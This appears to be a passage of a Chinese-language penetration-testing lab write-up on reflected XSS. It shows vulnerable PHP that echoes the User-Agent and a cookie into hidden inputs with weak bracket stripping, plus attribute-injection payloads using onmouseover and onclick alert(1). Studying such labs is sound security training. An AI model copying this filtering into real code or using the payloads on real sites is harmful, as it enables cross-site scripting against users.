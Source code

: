 ![image-20241127111617969](https://image.201068.xyz/assets/15.通用渗透测试项目实操(梭哈)/image-20241127111617969.png)

```bash
#鼠标移动
" type='text' onmouseover='alert(1)'>//	
#鼠标点击
" type='text' onclick='javascript:alert(1)'>//
```

#### 第二题 User-Agent

```bash
$str11 = $_SERVER['HTTP_USER_AGENT'];
        $str22 = str_replace(">", "", $str11);
        $str33 = str_replace("<", "", $str22);
        .....其他.....
        input name="t_ua"  value="<?=$str33;?>" type="hidden">

```

##### 查看网页源代码

```bash
<input name="t_ua"  value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36" type="hidden">
```

> t_ua是User-Agent

发现页面中含有User-Agent内容

```bash
" type='text' onclick='javascript:alert(1)'>\\
```

#### 第三题 Cookie

```bash
function srandom($length) {
    $hash = '';
    $chars = '0123456789';
    $max = strlen($chars) - 1;
    mt_srand((double) microtime() * 1000000);
    for ($i = 0; $i < $length; $i++) {
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
}
$str11=strtolower($_COOKIE["user"]);
if(!$str11){
setcookie("user", "LuanYu-" . srandom(4), time() + 3600);
$str11= strtolower($_COOKIE["user"]);
}

$str22 = str_replace(">", "", $str11);
$str33 = str_replace("<", "", $str22);

.....省略......
if (strpos($str33, 'alert') !== false) {
.....
}
.....
input name="t_cook"  value="<?=$str33;?>" type="hidden">

```
